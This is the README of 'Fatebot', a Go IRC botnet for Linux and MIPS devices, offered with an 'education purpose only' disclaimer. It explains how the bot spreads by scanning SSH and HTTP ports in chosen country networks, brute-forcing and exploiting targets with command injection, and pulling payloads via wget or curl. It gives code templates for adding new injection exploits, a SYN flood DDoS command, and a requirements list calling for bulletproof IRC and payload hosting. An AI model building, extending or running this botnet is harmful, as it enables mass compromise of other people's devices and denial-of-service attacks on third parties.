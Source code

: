 <p align="center">
	<a href="https://github.com/boz3r/Fatebot">
		<img src="assets/Not my image, i just add Fate text.png" alt="fatebot" width="440" height="440">
	</a>
	<br>
	<a href="https://github.com/boz3r/Fatebot/blob/master/LICENSE">
		<img src="https://img.shields.io/badge/license-Unlicense-red?style=plastic">
	</a>
	<a href="https://github.com/boz3r/Fatebot/releases/tag/0.8.1.3">
    		<img src="https://img.shields.io/badge/version-v0.8.1.3-lightgrey?style=plastic">
	</a>
	<a href="https://go.dev/">
    		<img src="https://img.shields.io/badge/language-Go-red?style=plastic">
	</a>
	<a href="https://en.wikipedia.org/wiki/Linux">
    		<img src="https://img.shields.io/badge/platform-linux-lightgrey?style=plastic">
	</a>
  	</br>
</p>

<p align="center">
	<b><ins>⚠️ DISCLAIMER ⚠️</ins></b>
	<br>
	Bozer\Bulldozer (old name is R4bin) the author of Fatebot.
	<br>
	I create this project for education purpose only, the use of this software is your responsibility!!!
	<br>
</p>

---

# Spread Feature
Spread feature of this bot will scan on default SSH and HTTP port. Option about scan feature in this bot is scan on CN, HK, KR and BR network or you can do a random scan or even you can add your own mods, all of these is up to you. This bot will brute-force attack and exploit to the target device, server, etc that's run linux or using mips x32 architecture. The loader will use "wget" or "curl" as a default loader for download payload from The FTP server or any option any server type that you can host your payload, not maintionly to be an FTP server.
	
	# How to add more scanner network (Create your own scan mod).
	
	1) Go to scanner.go file and add a new slice for your scan network.
	
		# Example:
			
			var ItalyNetwork = []string {
				"123.456", //123.456.0.0/16
			}
			
			# since v0.6.0 will be use only 16 bit of the ip range (I'm still confused about subnet mask lol).
			
	2) Go to header.go file and scroll down to the map name "ScanMap".
	3) Custom your key and value. The value of map is structure, so you need to call a value in "Bot" structure and fill it.
	
		# Example:
		
			"-it": {				 # This key will be the command of a network arg in "?scan" command. "it" is short form italy.
				scanNetwork: ItalyNetwork, 	 # Fill the "scanNetwork" that's a value of "Bot" structure. To your network slice.
				scanOptFull: "\"ITALY\"",	 # Add full name of the network for a report process.
				isRandom:    false,		 # Set "isRandom" to false because it's not a full random network.
			},
	
	4) Done... just save it.
	
# Add/Customize Exploit
The exploit that's use in this botnet mostly will be a command injection (tbh it's all of it LMAO). You can add more new exploit if you want, but i recommend it to be a command injection vulnerability, because you don't need to add or write anything more you just need to config it. I try to make the exploit feature easy and felxible to configuration as much as i can. If 2 examples down below is not enough you can see more example in "internal/exploit.go".
	
	#############################################################
	### Example 1 Incase that you want to add new HTTP header ###
	#############################################################
	
	func (b *Bot) CVE_someYear_newCVE1() {
		
		# If you add a post exploit, then customize it with a json.
		# Incase that your exploit need to inject on a post body just call an inject function --> b.inject("default or mips", true)
		
		
		# In this example will use default architecture so that's why we put "default" if your exploit use mips just put "mips".
		# Always put true because we are doing an exploit not scanning (The inject function has reused in the scanner function).
			
		newCVE1, _ := json.Marshal(map[string]string{
			"example":      "something",
			"example":      "something"+b.inject("default", true),
		})
		
		# This is just a http header customization.
		# Incase that your exploit need to inject on a header just doing the same with the body. 
		
		enewCVE1 := Exploit{
			exploitName:       "CVE_someYear_newCVE1",			# Customize exploit name for a report process.
			exploitMethod:     "POST",					# Which http method you will use for this exploit.
			exploitHeader:     "example/something",				# Customize http header.
			exploitBody:       convReader(newCVE1),				# Customize http body.
			exploitAgent:      "example"+b.inject("default", true),		# Customize http agent.
			exploitAccept:     "example",					# Customize http accept.
			exploitContType:   "example",					# Customize http content type.
			exploitConnection: "example",					# Customize http connection.
		}
		
		# If you want to add new header then just call it, like the example down below.
		
		_, newHeader := enewCVE1.setupExploit(b.tempIP)			# Use "enewCVE1" for calling Exploit structure function.
		newHeader.Header.Set("newHeader", "headerContent")		# Add new header (header, header_content).
		b.exploitLauncher(enewCVE1, newHeader)				# Launch the exploit by put the exploit strucutre and header in to "b.exploitLauncher(ourExploit, ourHeader)" function.
	}
	
	###################################################################
	### Example 2 Incase that you don't need to add new HTTP header ###
	###################################################################
	
	# This example is the same like the first example in term of header and body configs.
	
	func (b *Bot) CVE_someYear_newCVE2() {			
		newCVE2, _ := json.Marshal(map[string]string{
			"example":      "something",
			"example":      "something"+b.inject("default", true),
		})
		enewCVE2 := Exploit{
			exploitName:       "CVE_someYear_newCVE2",			# Customize exploit name for a report process.
			exploitMethod:     "POST",					# Which http method you will use for this exploit.
			exploitHeader:     "example/something",				# Customize http header.
			exploitBody:       convReader(newCVE2),				# Customize http body.
			exploitAgent:      "example"+b.inject("default", true),		# Customize http agent.
			exploitAccept:     "example",					# Customize http accept.
			exploitContType:   "example",					# Customize http content type.
			exploitConnection: "example",					# Customize http connection.
		}

		b.exploitLauncher(enewCVE2,  b.selfRequest(enewCVE2))		# In the first example you need to call "setupExploit" function but this example you don't need to call it.
										# Just call "exploitLauncher" function and in the second argument use "selfRequest" function instead of a newHeader value. 
										# Because we only use default header-set and then put our exploit structure in to the "selfRequest" argument.
	}
	
# Attack Feature
Attack feature mostly will play around with The Transport Layer, but also have an application and The Network Layer too.
All of the attack vectors except "HTTP" DDoS vectors will be random source port and windows size automatically but dst port will let bot herder config by them self.

	# tcp -syn 127.0.0.1 192.168.50.129 -r 100 //command that's used in this screenshot.

<img src="assets/synflood.png" alt="synflood, dos example">

# IRC Commands
	
	cat irc/commands.txt 
	
	# I have moved irc commands from github repositories to commands.txt file.

# Build Payload

	chmod +x build.sh
	./build.sh <payload>
	
	# The bot system architecture is up to which payload you upload on your payload server.
	# If you upload x32 on your payload server, the bot that you have scaned will be only x32 arch.
	# The mips architecture is specific for doing an exploit only, so it doesn't count to the scan process!!!
	# To run the payload you need to run with root access!!!

# Requirements
<ul>
	<li>x2 Bulletproof IRC Server (Recommend x2 in case for handle a lot of connections or your server is a low spec)</li>
</ul>

<ul>
	<li>x1 Bulletproof IRC Backup Server (Optional)</li>
</ul>

<ul>
	<li>x1 Payload Hosting Server (If it is a bulletproof hosting. It will be great for your self)</li>
</ul>

<ul>
	<li>IRC Client</li>
</ul>

<ul>
	<li>Go Compiler</li>
</ul>

<ul>
	<li>UPX Packer</li>
</ul>

<ul>
	<li>Code\Text Editor</li>
</ul>
